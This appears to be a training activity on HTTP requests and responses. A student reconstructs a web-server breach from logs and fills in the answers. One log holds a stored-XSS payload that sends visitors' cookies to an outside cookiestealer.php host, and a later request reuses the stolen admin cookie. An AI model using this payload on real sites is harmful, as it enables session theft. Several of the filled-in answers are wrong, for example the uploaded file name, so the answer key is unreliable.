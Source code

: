## Activity File: HTTP Requests and Responses

In this activity, you will play the role of a web app security engineer.

- There was a recent breach in one of your company's HTTP servers. Before the server went down, a suspicious IP address sent it a rapid sequence of requests and responses.
- The administrators of the web server attempted to recover and reconstruct much of the client-server HTTP request and response traffic.
- You are tasked with investigating the remaining HTTP logs in order to figure out what happened during the attack on the web server.

Use the [HTTP Reference Sheet](https://docs.google.com/document/d/114kp6IsNklMhiz852qTxUlSsaJwwFfbUxDWZmtAv8S8/edit?usp=sharing) while working on this activity. 

:books: Use the following URL to learn about how web-based cross-site scripting attacks are used to steal cookies: [Geeks for Geeks: Cookie Tracking and Stealing Using Cross-Site Scripting Tracking](https://www.geeksforgeeks.org/cookie-tracking-stealing-using-cross-site-scripting/). 

- The information will help you answer the upcoming questions. Search the internet for "cross-site scripting cookie stealing" if you still need more resources.

### Instructions

The partially reconstructed HTTP requests and responses below were, at some point, exchanged with the suspicious IP address. A lot of requests and responses are missing, so we can only partially understand the attack. 

Review the partially reconstructed HTTP requests and responses. Answer the questions to figure out what happened during the breach on your company's web server.

1. The following partial response was sent to the suspicious IP address. The request was completely lost and unrecoverable.

   **HTTP Response 1**

     ```HTTP
     HTTP/1.1 200 OK
     Date: Tue, 25 Sep 2018 21:21:20 GMT
     Server: Apache/2.2.21 (Unix mod_ssl/2.2.21 OpenSSL/1.0.0k DAV/2 PHP/5.4.3)
     WWW-Authenticate: Cookie realm="fakesite"
     Allow: OPTIONS, GET, POST, HEAD, PUT
     ```

   - **Question:** What kind of request was used here that would cause an HTTP server to tell the client all of the HTTP request methods it will respond to?
          `OPTIONS`

   - **Analysis:** Do you think this HTTP request method can be used by an attacker to gather information about an HTTP server? Why or why not?
          `Yes - it shows that the serve is responding and reflects part of the attack surface through the options listed`

2. The system admins reported some corrupted HTTP traffic that occurred before the following recovered response:

   **HTTP Response 2**

     ```HTTP
     HTTP/1.1 401 Unauthorized
     WWW-Authenticate: Cookie realm="fakesite"
             form-action="/login"
             cookie-name=AUTH-COOKIE
     Content-Type: text/html

     <title>Unauthorized</title>
     <form action="/login" method=POST>
     <input type=hidden name=referer value="/fakesite/">
     <p><label>Username: <input name=user></label>
     <p><label>Password: <input name=pwd type=password></label>
     <p><button type=submit>Sign in</button>
     <p><a href="/register">Register for an account</a>
     </form>
     ```

   - **Questions:** 
      - What status code was returned in this response? `401 Unauthorized`
      - According to the response body, what kind of method was used to generate this HTTP response? `Unauthenticated user access`
      - What sort of information was input to generate this HTTP request? `Authorisation cookie through POST`

   - **Analysis:** Based on the information gathered from the status code and response body, what did the attacker try to do? Were they successful? 
      `Unsuccessful attempt to access secure site without logging in`

3. The following HTTP request and response were also recovered:

   **HTTP Request 1**

     ```HTTP
     PUT /XSS.html HTTP/1.1
     User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
     Host: www.fakesite.com/blog

     <script type="text/javascript">
     document.location='http://133.7.13.37/cookiestealer.php?c='+document.cookie;
     </script>
     ```

   **HTTP Response 3**

     ```HTTP
     HTTP/1.1 201 Created
     Date: Mon, 05 May 2014 12:28:53 GMT
     Server: Apache/2.2.14 (Win32)
     Content-type: text/html
     Content-length: 30
     Connection: Closed
     ```

   - **Questions:** 
      - What type of method was used in the request? `PUT`
      - What file name was uploaded to the site, according to the request body? `cookiestealer.php`

   - **Analysis:** 
      - Based on the request method and request body, what do you think happened here? `XSS.html has been replaced by javascript from external site`
      - How did the server respond? `Created the cookiestealer.php file on it's database and closed the connection`

4. The next partial request and header was received by our HTTP server. The data after this log was completely lost:

   **HTTP Request 4**

     ```HTTP
     GET https://www.fakesite.com/admin HTTP/1.1
     Cookie: $Version="1"; AUTH-COOKIE="sdf354s5c1s8e1s"; $Path="/admin"
     ```

   - **Question:** Look back at the previous response (HTTP Response 3). What does the header indicate in this GET request? `cookiestealer.php was successfully uploading and used to retrieve an authorisation cookie for admin`

   - **Analysis:** Is there anything interesting about the URL requested? `User was accessing the admin section of fakesite.com`
